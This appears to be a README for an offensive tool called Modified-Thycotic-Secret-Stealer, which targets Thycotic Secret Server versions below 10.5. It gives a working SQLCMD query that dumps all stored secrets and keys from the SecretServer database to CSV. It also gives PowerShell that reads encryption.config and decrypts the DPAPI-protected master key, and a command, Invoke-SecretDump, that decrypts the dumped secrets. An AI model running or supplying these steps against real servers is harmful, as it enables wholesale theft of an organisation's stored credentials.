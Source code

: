 # Modified-Thycotic-Secret-Stealer for <10.5 with DPAPI Integration

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>

